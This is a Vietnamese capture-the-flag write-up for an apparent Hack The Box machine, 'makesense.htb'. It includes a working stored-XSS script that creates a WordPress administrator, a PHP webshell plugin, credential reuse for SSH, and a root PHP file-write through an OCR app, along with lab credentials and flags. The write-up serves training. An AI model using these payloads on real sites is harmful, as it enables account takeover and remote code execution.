







# Toàn bộ chain thực tế của box này là:

1. Recon thấy 22/ssh, 443/https, 8001 bị filter từ ngoài.
2. Enumerate web xác nhận đây là WordPress trên makesense.htb.
3. Tìm được file public wp-content/uploads/2026/01/voice-message.wav.
4. Transcribe file audio để lấy credential WordPress:
5. Login WordPress với user jake có role contributor.
6. Phân tích source JS của theme webagency:
- lộ key AES dùng để mã hóa payload
- lộ logic xử lý symbol phục vụ voice/XSS
7. Dùng key đó để tự tạo encrypted_payload hợp lệ cho contact_submission.
8. Chèn stored XSS vào summary/transcription của contact submission.
9. Khi admin mở trang Contact Submissions, XSS chạy và tạo user admin mới:
10. Login admin, upload plugin zip chứa webshell để lấy RCE dưới quyền www-data.
11. Từ webshell, đọc wp-config.php và lấy credential hệ thống:
- walter:JbhHDAEgXvri3!
12. SSH vào máy dưới quyền walter và lấy:
- user.txt = 45cfdc55acec6ebb388ae2ddbf113eac
13. Từ foothold web/host, phát hiện service nội bộ chạy bằng root tại:
- 127.0.0.1:8001
- app OCR dùng chính credential walter
14. App OCR cho phép:
- upload ảnh chữ viết tay
- OCR ra text
- lưu text đó thành file trong thư mục saved/
15. Tạo ảnh chứa payload PHP đơn giản
16. Để app OCR lưu payload thành:
- saved/rootflag.php
17. Truy cập file đó qua service OCR và đọc:
- root.txt = 5f2299cb2fb590534440cc4f448190a0


## 1. Recon ban đầu

### Giải thích thuật ngữ

- `Recon` hoặc `reconnaissance`: giai đoạn trinh sát ban đầu để biết mục tiêu đang chạy dịch vụ gì, có gì đáng tấn công.
- `Port`: cổng mạng mà dịch vụ lắng nghe, ví dụ `22` thường là SSH, `443` thường là HTTPS.
- `Bề mặt tấn công`: tập hợp tất cả điểm mà kẻ tấn công có thể chạm vào, như web, SSH, API, file public.
- `Virtual host`: nhiều website cùng chạy trên một máy chủ, được phân biệt bằng tên miền trong `Host` header.

Lệnh scan ban đầu:

```bash
nmap -Pn -sC -sV 10.129.1.251
```

Kết quả quan trọng:

```text
22/tcp   open     ssh
80/tcp   filtered http
443/tcp  open     ssl/https   Apache/2.4.58
8001/tcp filtered
```

### Tại sao làm bước này

- Cần biết bề mặt tấn công của máy.
- Box này có bề mặt nhỏ, nên mỗi port mở đều quan trọng.
- `443` là hướng web chính.
- `22` là dịch vụ có thể dùng để pivot nếu tìm được credential.
- `8001` bị filter từ bên ngoài, nhưng về sau trở thành manh mối rất lớn cho privilege escalation.

Ngoài ra, chứng chỉ TLS cho thấy virtual host:

```text
CN=makesense.htb
```

### Tại sao thông tin này quan trọng

- Web app có thể chỉ phản hồi đúng nếu dùng đúng `Host` header hoặc SNI đúng tên `makesense.htb`.
- Nếu truy cập bằng IP thuần, ứng dụng có thể trả lỗi hoặc bị treo.

---

## 2. Xử lý vấn đề truy cập web

### Giải thích thuật ngữ

- `TLS`: giao thức mã hóa cho kết nối HTTPS.
- `SNI` (Server Name Indication): thông tin tên miền được gửi ngay trong lúc bắt tay TLS để server biết phải trả website nào.
- `Host header`: header HTTP cho server biết client đang muốn truy cập website nào.
- `MTU` (Maximum Transmission Unit): kích thước gói tin tối đa trên đường truyền. Nếu sai lệch có thể gây treo hoặc mất response lớn.
- `Static file`: file tĩnh như `.js`, `.css`, `.png`, `.wav`, thường dễ truy cập hơn trang động.
- `Endpoint`: một đường dẫn có thể truy cập được trên web hoặc API, ví dụ `/wp-json/`.

Trong quá trình enumerate, `curl` đến các trang động thường bị treo, nhưng một số request nhỏ hoặc request dùng `TLS 1.2` với `Host: makesense.htb` lại phản hồi được.

Ví dụ:

```bash
curl -sk --tls-max 1.2 --http1.0 -H 'Host: makesense.htb' \
  https://10.129.1.251/wp-content/uploads/
```
 
### Tại sao cần điều chỉnh request

- Box này có vấn đề kiểu phân mảnh/MTU hoặc phản hồi không ổn định với response lớn.
- Nếu bỏ qua chi tiết này thì rất dễ kết luận sai rằng web không hoạt động.
- Cách tiếp cận đúng là thử các endpoint nhỏ, HEAD request, REST endpoint, và static file.

---

## 3. Xác nhận WordPress và enumerate REST API

### Giải thích thuật ngữ

- `REST API`: giao diện lập trình ứng dụng qua HTTP, thường trả dữ liệu JSON.
- `Enumerate`: liệt kê và thu thập thông tin có hệ thống.
- `JSON`: định dạng dữ liệu văn bản có cấu trúc, rất hay dùng trong API.
- `IOC` (Indicator of Compromise/Interest): dấu hiệu hoặc dữ liệu đáng chú ý có thể dẫn tới bước tiếp theo.
- `Namespace` trong REST: nhóm route hoặc API cùng một chức năng, ví dụ `wp/v2` hay `wp-abilities/v1`.

Truy vấn REST API cho thấy đây là WordPress và có user public:

```bash
curl -sk --tls-max 1.2 --http1.0 -H 'Host: makesense.htb' \
  'https://10.129.1.251/index.php?rest_route=/wp/v2/users'
```

Kết quả:

   
```json
[{"id":1,"name":"admin","url":"http:\/\/localhost:8000","slug":"admin"}]
```

### Tại sao bước này quan trọng

- Xác nhận đây là WordPress thật sự, không phải pfSense như một số kết quả tìm kiếm gây nhiễu.
- Lấy được user `admin`.
- Thuộc tính `url: http://localhost:8000` là IOC rất đáng chú ý, cho thấy có khả năng tồn tại một service nội bộ.

Sau đó enumerate thêm namespace REST:

```bash
curl -sk --tls-max 1.2 --http1.0 -H 'Host: makesense.htb' \
  'https://10.129.1.251/index.php?rest_route=/&_fields=namespaces'
```

Kết quả đáng chú ý:

```json
{"namespaces":["oembed/1.0","wp/v2","wp-site-health/v1","wp-block-editor/v1","wp-abilities/v1"]}
```

### Tại sao namespace `wp-abilities/v1` quan trọng

- Đây rất có thể là plugin custom hoặc tính năng tự viết.
- Trong box web, plugin custom thường là nơi chứa logic lỗi nhất.
- Tuy nhiên, hướng đi cuối cùng của box này lại là voice feature và contact submissions.

---

## 4. Tìm được file audio công khai

### Giải thích thuật ngữ

- `Directory listing`: server tự liệt kê danh sách file trong thư mục khi không có file index chặn lại.
- `Public media`: file người dùng hoặc hệ thống tải lên nhưng bị công khai trên web.
- `Whisper`: mô hình AI nhận dạng giọng nói thành văn bản.

Directory listing của uploads bị mở:

```bash
curl -sk --tls-max 1.2 --http1.0 -H 'Host: makesense.htb' \
  https://10.129.1.251/wp-content/uploads/2026/01/
```

Kết quả:

```text
voice-message.wav
```

### Tại sao đây là manh mối tốt

- Theme/trang web có chức năng voice recording.
- File audio public thường chứa thông tin vận hành, test data, hoặc credentials bị đọc to thành giọng nói.
- Điều này cũng khớp với thư mục `ai-models` và Whisper/Transformers có mặt trên site.

---

## 5. Tải file WAV và transcribe

### Giải thích thuật ngữ

- `GET`: request HTTP dùng để lấy dữ liệu.
- `Range request`: request chỉ lấy một phần file, ví dụ vài trăm byte hoặc vài KB đầu tiên.
- `Chunk`: một mảnh nhỏ của dữ liệu lớn.
- `Transcribe`: chuyển âm thanh thành văn bản.
- `Foothold`: quyền truy cập ban đầu có giá trị, dù chưa phải quyền cao nhất.

GET toàn bộ file bị treo, nhưng `Range` request hoạt động. Vì vậy file được tải theo nhiều chunk nhỏ rồi ghép lại.

Sau đó dùng `faster-whisper` để transcribe.

Nội dung quan trọng nhất sau khi transcribe:

```text
Hey, this is Jake. I'm testing the new feature, and it's exciting.
Oops. Log in.
Jake. Clear. Light. Nice. Smooth. Four. Nine. Two. Three.
```

### Tại sao bước này là foothold thật sự

- Đây không phải hint mơ hồ, mà là credential được đọc ra bằng giọng nói.
- Có user `jake`.
- Password có thể ghép thành `ClearLightNiceSmooth4923`.

---

## 6. Xác nhận credential WordPress

### Giải thích thuật ngữ

- `Credential`: thông tin xác thực, thường là username/password.
- `XML-RPC`: cơ chế gọi hàm từ xa qua XML trên HTTP, WordPress vẫn hỗ trợ.
- `Role`: vai trò người dùng trong WordPress, ví dụ `admin`, `editor`, `contributor`.
- `Contributor`: role có quyền viết nội dung nhưng không có toàn quyền quản trị.

Kiểm tra bằng XML-RPC thay vì form login thường, vì XML-RPC nhẹ hơn và phản hồi ổn định hơn:

```bash
curl -sk --tls-max 1.2 --http1.1 --resolve makesense.htb:443:10.129.1.251 \
  'https://makesense.htb/xmlrpc.php' \
  -H 'Content-Type: text/xml' \
  --data '<?xml version="1.0"?><methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>jake</value></param><param><value>ClearLightNiceSmooth4923</value></param></params></methodCall>'
```

Kết quả hợp lệ, chứng minh credential đúng.

### Tại sao dùng XML-RPC

- Form login WordPress thông thường có response HTML lớn, dễ gặp vấn đề MTU/timeout.
- XML-RPC cho phép xác thực nhanh, response ngắn, rất hợp với tình huống này.

Thông tin role sau khi login:

- User: `jake`
- Role: `contributor`

### Tại sao role contributor vẫn hữu ích

- Contributor không đủ để sửa plugin/theme trực tiếp.
- Nhưng Jake có thể truy cập các custom post type và contact submissions.
- Điều này mở ra hướng stored XSS trong giao diện admin.

---

## 7. Lấy nonce và phân tích giao diện admin của Jake

### Giải thích thuật ngữ

- `Nonce`: mã chống giả mạo request, thường dùng để xác minh một thao tác hợp lệ trong WordPress.
- `Admin UI`: giao diện quản trị web.
- `Custom post type`: kiểu nội dung tự định nghĩa ngoài `post` và `page`, ví dụ `case`, `team_member`.
- `SQLite`: hệ quản trị cơ sở dữ liệu dạng file, nhẹ hơn MySQL.

Bằng cách login và đọc `profile.php`, có thể thấy nonce và các menu được phép.

Những điểm quan trọng rút ra:

- Jake có các menu:
  - `Posts`
  - `Cases`
  - `Team Members`
  - `Contact Submissions`
- Theme đang dùng là `webagency`
- Database là `SQLite`

### Tại sao xem admin UI quan trọng

- Sẽ cho biết rõ Jake có thể xem gì, tạo gì, và custom post type nào có dữ liệu.
- Các custom post type thường hiển thị nội dung do người dùng gửi lên, rất hợp cho stored XSS.

---

## 8. Phân tích JavaScript của theme và tìm logic lỗi

### Giải thích thuật ngữ

- `Theme`: bộ giao diện và một phần logic frontend của WordPress.
- `Client-side JavaScript`: mã JavaScript chạy trong trình duyệt của người dùng.
- `AES-GCM`: thuật toán mã hóa đối xứng hiện đại, nếu lộ key thì dữ liệu mã hóa gần như mất ý nghĩa bảo vệ.
- `Payload`: dữ liệu do kẻ tấn công tạo ra nhằm kích hoạt hoặc khai thác lỗi.
- `Backend`: phần xử lý phía máy chủ.

File homepage và JS của theme `webagency` lộ rất nhiều thông tin:

- `assets/js/main.js`
- `assets/js/whisper/whisper-wrapper.js`

Trong `whisper-wrapper.js` có thông tin rất quan trọng:

```javascript
const ENCRYPTION_KEY = 'bLs6z8iv3gWpsvyeabFosDjb4YQe7jdU13rI';
```

Và còn có mapping phục vụ XSS:

```javascript
'open bracket': '<',
'close bracket': '>',
'slash': '/',
'quote': "'",
'double quote': '"',
...
```

### Tại sao đây là điểm vỡ của box

- Key AES-GCM để mã hóa payload bị lộ ở phía client.
- Nghĩa là bất kỳ ai cũng có thể tự tạo `encrypted_payload` hợp lệ.
- Theme còn cho thấy hệ thống có chủ ý xử lý symbol cho XSS injection.
- Đây là dấu hiệu backend sẽ tin vào dữ liệu sau khi giải mã và render lại nó trong admin.

---

## 9. Xác nhận stored XSS trong Contact Submissions

### Chứng minh submit_contact_form là public
Mục tiêu : Xác nhận người chưa đăng nhập vẫn tạo được một contact submission.
Lệnh

- Trước hết lấy nonce từ homepage hoặc JS:
```code
curl -sk --resolve makesense.htb:443:10.129.1.251 \
  https://makesense.htb/ -o homepage.html

grep -n 'webagency_ajax' homepage.html
```
Kết quả sẽ có dạng:
```code
var webagency_ajax = {"ajax_url":"https://makesense.htb/wp-admin/admin-ajax.php","nonce":"4c58dec735", ...}
```
Sau đó gửi form:
```code
curl -sk --resolve makesense.htb:443:10.129.1.251 \
  -X POST 'https://makesense.htb/wp-admin/admin-ajax.php' \
  -d 'action=submit_contact_form' \
  -d 'nonce=4c58dec735' \
  -d 'name=tester' \
  -d 'email=test@example.com' \
  -d 'phone=123456' \
  -d 'message=hello from test'
```
Kết quả kỳ vọng
```code
{"success":true,"data":{"message":"Thank you for contacting us! We will get back to you soon.","post_id":73}}
```
Điều này chứng minh gì
- action `submit_contact_form` gọi được khi chưa đăng nhập
- backend tạo một `contact_submission`
- `post_id` trả về sẽ là mục tiêu để mình cập nhật bằng `save_voice_results`


## 10. Dùng stored XSS để tạo admin mới
### Mục tiêu : Dùng key đã lộ trong JS để tạo một payload hợp lệ, không cần frontend thật.
Mã Python mẫu
```py
import base64, hashlib, json, os
from cryptography.hazmat.primitives.ciphers.aead import AESGCM

xss = """{let u="auditadmin",p="Aa1!Aa1!Aa1!2026",h=await fetch("/wp-admin/user-new.php",{credentials:"include"}).then(r=>r.text()),m=h.match(/name="_wpnonce_create-user" value="([^"]+)/);if(!m)return;let b=new URLSearchParams({action:"createuser","_wpnonce_create-user":m[1],"_wp_http_referer":"/wp-admin/user-new.php",user_login:u,email:u+"@x.htb",pass1:p,pass2:p,role:"administrator",createuser:"Add New User"});fetch("/wp-admin/user-new.php",{method:"POST",credentials:"include",headers:{"Content-Type":"application/x-www-form-urlencoded"},body:b})})()'>"""

key = hashlib.sha256(b'bLs6z8iv3gWpsvyeabFosDjb4YQe7jdU13rI').digest()
iv = os.urandom(12)

payload = {
    "transcription": xss,
    "summary": xss
}

pt = json.dumps(payload, separators=(',', ':')).encode()
enc = iv + AESGCM(key).encrypt(iv, pt, None)

print(base64.b64encode(enc).decode())

```
Điều quan trọng ở đây
Mình không dùng giao diện web để tạo dữ liệu.
Mình tự:
- chọn nội dung
- mã hóa
- tạo encrypted_payload
Tức là đã chứng minh được attacker có thể giả mạo kết quả AI.
### Gửi encrypted_payload vào backend
Lệnh
Giả sử bạn đã có:
- post_id=73
- encrypted_payload=<chuỗi base64 tạo ở trên>
thì gửi:
```code
curl -sk --resolve makesense.htb:443:10.129.1.251 \
  -X POST 'https://makesense.htb/wp-admin/admin-ajax.php' \
  -d 'action=save_voice_results' \
  -d 'nonce=4c58dec735' \
  -d 'post_id=73' \
  --data-urlencode 'encrypted_payload=<base64-payload>'
```
Kết quả kỳ vọng
{"success":true,"data":{"message":"Results saved successfully!","post_id":73}}
Payload XSS được dùng để:

1. Admin mở trang `Contact Submissions`
2. JavaScript chạy trong session admin
3. Fetch `user-new.php`
4. Rút `_wpnonce_create-user`
5. Gửi form tạo user admin mới
 
User mới tạo:

- Username: `auditadmin`
- Password: `Aa1!Aa1!Aa1!2026`

Kiểm tra lại qua XML-RPC cho thấy:

```text
isAdmin = 1
```

### Tại sao chọn tạo admin mới thay vì thực hiện RCE ngay trong XSS

- Ổn định hơn.
- Dễ kiểm tra thành công theo từng mốc.
- Có một admin account bền vững sẽ dễ pivot sang RCE bằng plugin upload hơn là cố nhồi quá nhiều logic vào payload XSS.

---

## 11. Dùng admin để upload plugin webshell

### Giải thích thuật ngữ

- `Plugin`: thành phần mở rộng chức năng cho WordPress.
- `Webshell`: file script chạy trên web server, cho phép thực thi lệnh hệ thống từ xa.
- `RCE` (Remote Code Execution): thực thi mã hoặc lệnh trên máy nạn nhân.
- `Primitive`: một khả năng khai thác cơ bản nhưng mạnh, ví dụ ghi file, thực thi lệnh, đọc file.

Sau khi login `auditadmin`, trang plugin upload có nonce:

```text
_wpnonce = b2feda46a3
```

Tạo zip plugin nhỏ chứa webshell:

```php
<?php
/*
Plugin Name: HTB Shell
*/
if (isset($_GET["cmd"])) { header("Content-Type: text/plain"); system($_GET["cmd"]); exit; }
?>
```

Upload plugin thành công:

```text
Plugin installed successfully.
```

Test webshell:

```bash
/wp-content/plugins/htbshell/htbshell.php?cmd=id
```

Kết quả:

```text
uid=33(www-data) gid=33(www-data)
```

### Tại sao plugin upload là hướng RCE đẹp

- Không cần sửa theme file.
- Không phụ thuộc theme editor có bị khóa hay không.
- Đây là primitive RCE ổn định và rõ ràng nhất sau khi đã có admin.

---

## 12. Đọc `wp-config.php` và lấy credential SSH

### Giải thích thuật ngữ

- `wp-config.php`: file cấu hình chính của WordPress, thường chứa database credentials và secret keys.
- `SSH`: giao thức đăng nhập từ xa vào máy Linux.
- `Pivot sang user thật`: chuyển từ web user như `www-data` sang user hệ điều hành như `walter`.

Từ webshell, đọc file:

```bash
cat /var/www/html/wp-config.php
```

Thông tin quan trọng:

```php
define( 'DB_USER', 'walter' );
define( 'DB_PASSWORD', 'JbhHDAEgXvri3!' );
```

Thử SSH:

```bash
ssh walter@10.129.1.251
ssh -o PreferredAuthentications=password -o PubkeyAuthentication=no walter@10.129.1.251
```

Credential hợp lệ:

- `walter:JbhHDAEgXvri3!`

### Tại sao thử SSH cred trong web config

- Rất nhiều box tái sử dụng password app/database cho user hệ thống.
- Ở đây dù `www-data` chưa đọc được `/home/walter/user.txt`, nhưng có thể pivot sang user thật bằng SSH.

---

## 13. Lấy user flag

### Giải thích thuật ngữ

- `user flag`: flag chứng minh đã chiếm được quyền người dùng thông thường trên box.

Sau khi vào SSH bằng `walter`, kiểm tra home:

   
```text
/home/walter/user.txt
```

Nội dung:

```text
45cfdc55acec6ebb388ae2ddbf113eac
```

---

## 14. Tìm hướng root: service nội bộ trên 127.0.0.1:8001

### Giải thích thuật ngữ

- `localhost` hoặc `127.0.0.1`: địa chỉ nội bộ của chính máy đó.
- `Internal-only service`: dịch vụ chỉ mở trong máy local, không public ra ngoài.
- `Privilege escalation` hoặc `priv-esc`: leo thang đặc quyền từ user thấp lên user cao hơn như `root`.
- `Basic Auth`: cơ chế xác thực HTTP đơn giản bằng username/password.

Từ `www-data`, kiểm tra port local:

```text
127.0.0.1:8001 LISTEN
```
   
   
Kiểm tra process:

```text
/bin/bash /root/.scripts/start_ocr4.sh
php -S 127.0.0.1:8001 -t /root/ocr4/
```

### Tại sao đây là hướng priv-esc tốt

- Service chạy bằng `root`.

   
- Không mở ra ngoài Internet.
- Vừa có credential nội bộ, vừa có app custom, nên khả năng có bug logic là rất cao.

Khi truy cập từ localhost:

```bash
curl -u walter:JbhHDAEgXvri3! http://127.0.0.1:8001/
```

   

Service chấp nhận Basic Auth với chính credential của `walter`.

### Tại sao credential này quan trọng

- Không cần brute force.
- Có dấu hiệu reuse password nội bộ.
- Mở đường thẳng vào app OCR chạy bằng root.

---

## 15. Phân tích app OCR và tìm file-write primitive

### Giải thích thuật ngữ

- `OCR` (Optical Character Recognition): nhận dạng chữ từ ảnh thành văn bản.
- `Document root`: thư mục gốc mà web server dùng để phục vụ file.
- `File write primitive`: khả năng ghi file lên server theo cách có thể bị lạm dụng.
- `Path traversal`: kỹ thuật dùng `../` để cố ghi hoặc đọc ra ngoài thư mục mong muốn.
- `HTTP-served`: file ghi ra xong có thể truy cập lại qua trình duyệt hoặc `curl`.

Trang OCR là một ứng dụng nhận `canvas_image`, OCR nó, sau đó hiện text và form:

```html
<input type="hidden" name="ocr_id" value="ocr_xxx">
<input type="text" name="filename" placeholder="result.txt">
<button type="submit" name="save_output">Save</button>
```
 
Giải thích
Flow của ứng dụng là:
1. người dùng gửi ảnh (canvas_image)
2. server OCR ra text
3. server sinh ocr_id
4. người dùng nhập filename
5. server ghi text OCR thành file

Mình tạo ảnh có chữ rõ ràng, ví dụ `ROOT` hoặc `HELLOTEST`.
Ví dụ tạo ảnh bằng PHP/GD trên target:
```php
php -r '$im=imagecreatetruecolor(900,220);
$w=imagecolorallocate($im,255,255,255);
$b=imagecolorallocate($im,0,0,0);
imagefill($im,0,0,$w);
$font="/usr/share/fonts/truetype/dejavu/DejaVuSans-Bold.ttf";
imagettftext($im,120,0,20,150,$b,$font,"ROOT");
imagepng($im,"/tmp/helloocr.png");
imagedestroy($im);
echo filesize("/tmp/helloocr.png");'
```

   

### Tại sao đây là primitive quan trọng

- App OCR chạy bằng `root`.
- Nếu nó ghi file vào webroot của chính nó, thì có thể biến nó thành root-level file write.
- Không cần path traversal ra ngoài docroot nếu web server sẽ execute `.php` trong `saved/`.

Mình test với file text trước:

- Tạo ảnh chứa chữ `HELLOTEST`
- OCR app nhận ra text
- Save thành `saved/probe.txt`
- Truy cập lại được nội dung `HELLOTEST`

Điều này xác nhận:

- App thực sự ghi file lên đĩa bằng quyền root
- Thư mục `saved/` phục vụ file qua HTTP

---

## 16. Biến OCR thành root file read

### Giải thích thuật ngữ

- `Monospace font`: font mà mỗi ký tự có cùng độ rộng, giúp OCR nhận ký tự code chính xác hơn.
- `PHP payload`: đoạn mã PHP ngắn được ghi vào file để server thực thi.
- `Root file read`: đọc được file chỉ `root` mới nên đọc được, như `/root/root.txt`.
- `Execute`: server hiểu và chạy mã trong file, thay vì chỉ trả file như text.

Hướng đầu tiên thử là OCR PHP payload ngắn thành file `.php`.

OCR không giữ nguyên một số payload phức tạp, nhưng với payload đơn giản sau thì OCR rất chuẩn:

```php
<?php readfile("/root/root.txt");?>
```

Mình tạo ảnh chứa payload trên theo font monospace, sau đó:

1. Gửi ảnh vào OCR app
2. Lấy `ocr_id`
3. Save output thành `saved/rootflag.php`
4. Truy cập `http://127.0.0.1:8001/saved/rootflag.php` đống thời server thực thi file `php`

   
   
Kết quả:

```text
5f2299cb2fb590534440cc4f448190a0
```

### Tại sao cách này hoạt động

- File `.php` được ghi bởi app chạy bằng root.
- Document root của OCR app nằm trong `/root/ocr4/`.
- PHP built-in server phục vụ và execute `.php` trong thư mục này.
- Vì payload chỉ cần `readfile("/root/root.txt")`, không cần shell phức tạp, nên OCR dễ giữ nguyên hơn.

---

# Tổng kết chain tấn công

Toàn bộ chain có thể tóm tắt như sau:

1. `nmap` thấy `22`, `443`, `8001 filtered`
2. Xác nhận `makesense.htb`
3. Enumerate WordPress REST và uploads
4. Tìm `voice-message.wav`
5. Transcribe audio -> `jake:ClearLightNiceSmooth4923`
6. Login Jake vào WordPress
7. Phân tích JS theme `webagency`
8. Tìm AES key + logic lưu encrypted payload
9. Stored XSS trong `contact_submission`
10. XSS tạo admin `auditadmin`
11. Admin upload plugin webshell -> `www-data`
12. Đọc `wp-config.php` -> SSH cred `walter:JbhHDAEgXvri3!`
13. SSH vào `walter` -> lấy `user.txt`
14. Tìm OCR app nội bộ chạy bằng root trên `127.0.0.1:8001`
15. Dùng OCR app để save file `.php` vào `saved/`
16. Đọc `/root/root.txt` qua `saved/rootflag.php`

 

 